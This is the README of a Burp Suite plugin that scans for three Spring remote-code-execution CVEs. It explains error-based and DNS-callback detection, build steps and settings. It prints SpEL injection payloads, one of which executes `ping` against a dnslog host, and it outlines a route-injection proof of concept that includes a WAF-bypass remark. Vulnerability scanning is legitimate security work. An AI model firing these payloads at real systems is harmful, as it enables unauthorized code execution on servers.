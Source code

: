 # SpringScan Burp 检测插件

## 支持检测漏洞

- [x] Spring Core RCE (**CVE-2022-22965**)
- [x] Spring Cloud Function SpEL RCE (**CVE-2022-22963**)
- [x] Spring Cloud GateWay SPEL RCE (**CVE-2022-22947**)

## 回连平台

- [x] Dnglog
- [x] BurpCollaboratorClient
- [x] Ceye
- [x] Digpm  (默认)
- [ ] 支持自定义回连平台

### CVE-2022-22965 检测方法

利用条件

* JDK9及其以上版本；
* 使⽤了Spring-beans包； 
* 使⽤了Spring参数绑定，参数绑定使⽤的是⾮基本参数类型，如POJO ；

* 使用Tomcat部署，且日志记录功能开启（默认开启）

因为这个洞上传shell还需要准确的web路径（默认在webapps\ROOT），写ssh和计划任务也需要root权限。实战中用exp去检测漏洞不太现实，所以思路转变到使用其他方法去检测漏洞的存在性。主要通过下面两种方式检测：

* 报错检测
* 回连检测（BurpCollaboratorClient/Dnglos/Ceye）

详细原理 ➡️ [https://www.t00ls.cc/articles-65348.html](https://www.t00ls.cc/articles-65348.html)

检测置信度：

> 回连检测 > 报错检测

报错检测误报率较大(默认关闭)，可能存在漏洞但不能保证JDK版本大于等于**9**，可以及时捕捉到不出网的漏洞；回连检测准确率高，不适用于不出网环境。
推荐在内网的环境只开启报错检测，在公网环境开报错检测和回连检测。

### CVE-2022-22963 检测方法 

利用条件

* 默认路由`/functionRouter`存在SpEL表达式注入

两种检测方法：

* 通过Java自带InetAddres库：`spring.cloud.function.routing-expression:T(java.net.InetAddress).getByName("xxx.dnslog.cn")`回连探测（可绕过WAF拦截命令执行进行漏洞探测）
* 通过执行`ping`命令：`spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("ping xxx.dnslog.cn")`回连探测
* 会扫描当前URI、以及当前URI拼接默认路由`/functionRouter`进行漏洞探测。

### CVE-2022-22947 检测方法

* 利用条件

该漏洞为当Spring Cloud Gateway启用和暴露 Gateway Actuator 端点时，使用 Spring Cloud Gateway 的应用程序可受到代码注入攻击。攻击者可以发送特制的恶意请求，从而远程执行任意代码。

检测方法：

* 首先随机访问一个不存在的路径，根据特征`Whitelabel Error Page`判断是否是Spring框架；是则打POC，分五个请求：`包含恶意SpEL表达式的路由 -> 刷新路由 -> 访问添加的路由查看RCE结果 -> 删除路由 -> 刷新路由`

## 插件情况

|  **报错检测**   | **回连检测**  | **自带检测**  |
|  :----:  | :----:  | :----:  |
| Spring Core RCE  | Spring Core RCE | Spring Cloud GateWay SPEL RCE |
| x  | Spring Cloud Function SpEL RCE | x |

## 编译

如需编译其他JDK版本，可参考如下方法编译jar包：

![image-20220409120135726](imgs/image-20220409120135726.png)

<img src="imgs/image-20220409120218010.png" alt="image-20220409120218010" style="zoom:50%;" />

<img src="imgs/image-20220409120315324.png" alt="image-20220409120315324" style="zoom:50%;" />

<img src="imgs/image-20220409120455863.png" alt="image-20220409120455863" style="zoom:50%;" />

## 截图

* 加载插件成功

![image-20220430195312197](imgs/image-20220430195312197.png)

* 漏洞检测情况

![image-20220411234911184](imgs/image-20220411234911184.png)

![image-20220411234930710](imgs/image-20220411234930710.png)

![image-20220411234948718](imgs/image-20220411234948718.png)

* 报错检测情况

![image-20220425233957353](imgs/image-20220425233957353.png)

target 模块中可以看到漏洞详情

![image-20220409124402852](imgs/image-20220409124402852.png)

* 插件设置，检测方法默认全开启，回连平台默认`Dig.pm`(推荐)

![image-20220409120720309](imgs/image-20220409120720309.png)

![image-20220413012818703](imgs/image-20220413012818703.png)

* 主动扫描：当不希望每个 URL都做被动扫描时，可以将插件关闭（检测方法正常开启），`右键请求数据包 -> Extensions -> SpringScan -> doScan`即可进行主动扫描：

![image-20220430194559458](imgs/image-20220430194559458.png)

## 免责声明

本工具仅作为安全研究交流，请勿用于非法用途。如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果，本人将不承担任何法律及连带责任。
